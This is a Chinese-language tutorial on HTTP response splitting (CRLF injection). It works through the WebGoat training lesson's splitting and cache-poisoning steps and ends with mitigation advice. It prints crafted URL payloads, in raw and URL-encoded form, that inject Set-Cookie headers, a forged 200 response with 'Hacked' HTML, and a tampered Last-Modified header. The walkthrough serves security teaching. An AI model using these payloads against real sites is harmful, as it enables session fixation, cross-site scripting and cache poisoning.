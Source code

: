 ## HTTP响应拆分
HTTP响应拆分漏洞，也叫CRLF注入攻击。利用CR(%0d)与LF(%0a)等特殊字符串进行攻击。HTTP头由很多被CRLF组合分离的行构成，每行的结构都是“键：值”。如果用户输入的值部分注入了CRLF字符，它有可能改变的HTTP报头结构。

### 漏洞分析
一般网站会在HTTP头中用`Location: http://example.com`这种方式来进行302跳转，所以我们能控制的内容就是`Location:`后面的XXX某个网址。

所以一个正常的302跳转包是这样：
```http
HTTP/1.1 302 Moved Temporarily 
Date: Mon, 20 Apr 2015 20:23:57 GMT
Content-Type: text/html 
Content-Length: 50 
Connection: close 
Location: http://example.com/WebGoat/attack
```
如果在HTTP头中`Location`它的值变为`http://example.com/WebGoat/attack%0aSet-cookie:PHPSESSID%3Dexample.com`的时候，HTTP返回的头信息会变成下面这样：
```http
HTTP/1.1 302 Moved Temporarily 
Date: Mon, 20 Apr 2015 20:25:17 GMT
Content-Type: text/html 
Content-Length: 50 
Connection: close 
Location: http://example.com/WebGoat/attack
Set-cookie: PHPSESSID=example.com
```
这样就成功的在http头里面注入了新的key/value。
这样也就可以随意的执行xss攻击了。

所以，可以这样构造一个url请求。
```http
http://example.com/WebGoat/attack%0aHTTP/1.1%20200%20OK%0aContent-Type:%20text/html%0aSet-cookie:PHPSESSID%3Dexample.com%0aX-XSS-Protection:%200%0aContent-Length:%2049%0a%0a<html><head><title>Hacked</title></head><body>hacked Q6E79D</body><html>
```

### WebGoat的HTTP Splitting
课程是两个步骤：
第一步，执行拆分攻击。
第二步，缓存污染，要求篡改HTTP头中的Last‐Modified字段。
#### 工具
- [WebScarab](https://www.owasp.org/index.php/WebScarab)
- [PCE](http://yehg.net/encoding) - PHP Charset Encoder/String Encrypter
需要注意，以下操作过程仅适用于Linux 环境。如果您正在使用Windows，请作相关的修
改。Windows 系统中同时使用CR 和LF 两个字符表示新行。Linux 用户只需要使用LF，Mac OS
用户请使用CR。所以如果您正在使用Windows 系统，请将以下操作过程中所有的%0a 需要
替换成%0d%0a（Windows）或%0d（Mac OS）。

第一步拆分攻击，使用PCE对下面的代码进行URL编码
```html
Foobar
Content-Length: 0


HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 47


<html><head><title>Hacked</title></head><body>hacked Q6E79D</body><html>
```
最后得到的结果是：
```html
Foobar%0AContent-Length%3A%200%0A%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%2047%0A%0A%0A%3Chtml%3E%3Chead%3E%3Ctitle%3EHacked%3C%2Ftitle%3E%3C%2Fhead%3E%3Cbody%3Ehacked%20Q6E79D%3C%2Fbody%3E%3Chtml%3E
```
填充到search输入框提交后得到hacked Q6E79D页面信息。然后点击浏览器后退。
第二步缓存污染，修改Last‐Modified字段：
```html
Foobar
Content-Length: 0


HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 47

<html><head><title>Hacked</title></head><body>hacked Q6E79D</body><html>
```
得到的结果是：
```html
Foobar%0AContent-Length%3A%200%0A%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2047%0A%0A%3Chtml%3E%3Chead%3E%3Ctitle%3EHacked%3C%2Ftitle%3E%3C%2Fhead%3E%3Cbody%3Ehacked%20Q6E79D%3C%2Fbody%3E%3Chtml%3E
```
填充到search输入框提交，完成本次课程的所有操作。

### 危害
攻击者可能注入自定义HTTP头。例如，攻击者可以注入会话cookie或HTML代码。这可能会进行类似的XSS（跨站点脚本）或会话固定漏洞。

### 解决方案：
限制用户输入的CR(%0d)和LF(%0a)，或者对CR(%0d)和LF(%0a)字符正确编码后再输出，以防止注入自定义HTTP头。
